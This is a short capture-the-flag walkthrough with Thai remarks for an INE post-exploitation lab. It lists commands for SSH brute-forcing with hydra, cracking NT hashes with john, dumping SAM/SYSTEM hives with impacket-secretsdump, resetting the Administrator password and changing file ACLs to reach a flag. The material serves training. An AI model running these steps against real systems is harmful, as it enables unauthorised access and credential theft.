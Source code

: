 Host & Network Penetration Testing: Post-Exploitation CTF 2

`hydra -l alice -P password.txt ssh://target.ine.local`
alice princess1

`ssh alice@target.ine.local`
`sftp alice@target.ine.local`

`get password_dump.txt`

`john --format=NT password_dump.txt`
ได้ david orange มาตัวเดียว 

หลังใช้ PrintSpoofer ที่โจทย์กำหนดเข้ามาได้
`reg save HKLM\SAM sam.bak`
`reg save HKLM\SYSTEM system.bak`
`impacket-secretsdump -sam sam.bak -system system.bak LOCAL`

`net user Administrator password` 
จริงๆมีสิทธิ admin  ไปเปลี่ยน pass เลยก็ได้

`icacls flag`
`icacls flag /remove:d "NT AUTHORITY\SYSTEM"`
หรือไปเซทสิทธิ